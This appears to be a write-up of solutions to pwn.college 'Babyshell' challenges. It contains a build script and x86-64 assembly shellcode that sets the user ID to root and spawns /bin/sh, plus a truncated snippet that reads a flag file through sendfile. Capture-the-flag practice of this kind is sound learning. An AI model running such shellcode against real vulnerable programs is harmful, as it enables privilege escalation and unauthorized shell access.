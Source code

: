 # Pwn college Babyshell

```py
  1 #!/bin/bash                                                                             
  2 # script for generating solution
  3 # defining I/O files
  4 file="a.s"
  5 sol="sol.txt"
  6 out="a.out"
  7     
  8 # colored terminal
  9 RED="\033[0;31m"
 10 NC="\033[0m" 
 11 GREEN="\033[0;32m"
 12 YELLOW="\033[1;33m"
 13     
 14 echo -e "compiling assembly from ${RED}${file}${NC}"
 15 gcc -z execstack -fno-stack-protector -nostdlib -static -o $out $file
 16 echo -e "copying text section binary to ${RED}${sol}"
 17 objcopy --dump-section .text=$sol $out
 18  
 19 echo -e "${GREEN}#### DONE! ####"
```


# 1
```s
  1 .intel_syntax noprefix    
  2 .global _start
  3 .section .text
  4 _start:
  5     mov rax,105
  6     xor rdi,rdi
  7     syscall
  8  
  9     mov rax,59
 10     lea rdi, [rip+binsh]
 11     xor rsi,rsi
 12     xor rdx,rdx
 13     syscall
 14  
 15 binsh:
 16     .string "/bin/sh"
 17  
```
    cat sol.txt - | /challenge/...

```s
.global _start
_start:
.intel_syntax noprefix
    # Open file descriptor
    mov rsi, 0                  # flags
    lea rdi, [rip+flag]         # path name
    mov rax, 2                  # syscall number (sys_open)
    syscall                     # syscall (call into kernel)

    # Read
    mov rdi, 1                  # out_fd
    mov rsi, rax                # in_fd
    mov rdx, 0                  # offset
    mov r10, 100                # count
    mov rax, 40                 # syscall (sys_sendfile)
```